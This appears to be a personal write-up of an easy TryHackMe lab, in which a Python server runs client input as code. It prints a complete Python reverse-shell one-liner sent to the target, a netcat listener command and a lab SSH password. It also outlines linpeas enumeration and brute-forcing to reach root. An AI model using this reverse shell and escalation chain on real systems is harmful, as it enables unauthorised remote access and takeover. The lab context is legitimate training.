

# Fun
.Solving an easy challenge on tryhackme.com

**The challenge is to hack into a python server that when receiving a GET request from a client runs some of the content of that request as an input for the python interpreter running in the server.**

So the first step is to deploy the challenge machine in the tryhackme platform, we get the challenge machine ip address as 10.201.65.80, this is an ip from a private network, so we connect to the network of the tryhackme platform using the command 
`sudo openvpn Downloads/user.ovpn` after we ping the target so we can see that we have access to the target
`ping 10.201.65.80`

After seeing that we are in fact into the network  we run nmap to scan the target with the `-sV` flag to enumerate the version of the sotware running in the ports of the server. `nmap -sV 10.201.65.80` 

Nmap return that the target server is running ssh in port 22 and a http server in port 8000. As in the premises of the challenge is very straight forward where to look, i'm not gonna try to bruteforce the ssh and focus in the server as the foothold point.

We see that the http server is using the simplehttp python. the command to start running this kind of server in your machine is a derivation of `python3 -m http.server PORT_TO_RUN` and the fingerprint string of the responde of the http is returning error about an object not defined in the request. When access the http service in port 8000 in a browser we receive a html file saying *Try a more basic connection!*

So we connect using netcat a swiss army knife to handling basic network connections, we use the command
`nc 10.201.65.80 8000` (i lost the screenshot but when you connect via netcat all you type in the terminal is run by a python interpreter, so if i typed `hello` it would return `NameError: name 'hello' is not defined.`
and when typed `print("hello")` we receive *hello* as response. **Then we can conclude that this is the remote code execution flaw of the server, we can exploit this to execute arbitrary code into the server machine**.

We use a reverse shell cheat sheet online to look an one line python code to make the server spawn a shell and connects to our machine (REVERSE SHELL) writing `import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("OUR_MACHINE_IP",1337));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")` into the netcat connection with the target as is running a get request as python code. This code will make the server connects to our machine and connect an interactive shell of the server into our machine by port 1337, so we set our machine to listen to connections in port 1337 by using `nc -lvnp 1337` (-l is listen, -v verbone, -p port and -n no dns resolution).

In the nc -lvnp 1337 we receive a connection from 10.201.92.41 (our target address) and a **$** which means a input for shell, when we run `id` into this shell we received in port 1337 the output is **www-data** which is the user responsible for the http server, so we are inside the target server and running code as www-date user, which is a very low priveleged user in the target system, the next step is to realize a **privilege escalation** to achieve root into the target system, owning the target. So we have access to the target server but with the user www-data (It is not showed by the photos, but in my machine i runned a simple http server by `python3 -m http.server PORT` to connect via the victim's machine and get the linpeas.sh program inside the target server, linpeas.sh *(https://github.com/peass-ng/PEASS-ng/blob/master/linPEAS/README.md)* is a program to find privilege escalation and it returned us the existence of `/opt/dev/.git`)

With the user think and the password __TH1NKINGPirate$__ we can connect to the target via ssh using the think user

Exploring the .git folder we find that the last commit and we can see a little bit of the python backend code running in the server

In the python code we see that if the data == 'some_endpoint': then a function get_this_endpoint will be called. So we need to bruteforce to find the endpoint, we achieve this creating a .py script that bruteforce for endpoints after connecting to the server that is

After this we discover the admin endpoint evoke a password input and we need to bruteforce the password by the same method and we are in with a root shell

